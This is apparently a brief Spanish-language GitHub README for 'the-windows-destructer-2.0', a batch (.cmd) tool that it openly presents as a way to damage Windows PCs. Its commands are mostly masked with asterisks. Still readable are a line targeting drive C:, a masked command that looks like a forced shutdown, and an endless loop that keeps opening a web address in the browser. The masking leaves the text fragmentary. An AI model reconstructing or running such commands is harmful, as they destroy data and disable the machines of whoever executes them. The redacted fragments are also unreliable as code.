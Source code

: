 # the-windows-destructer-2.0

EL DESTRUCTOR DE WINDOWS ES UNA HERRAMIENTA QUE USA LOS SIGUIENTES COMANDOS Y USA LA EXTENCION .cmd

****** C:

(******* la pc)

shu***  -* -* *

(la *****)

@echo off

:no

start http://**.*********************************************

**** no
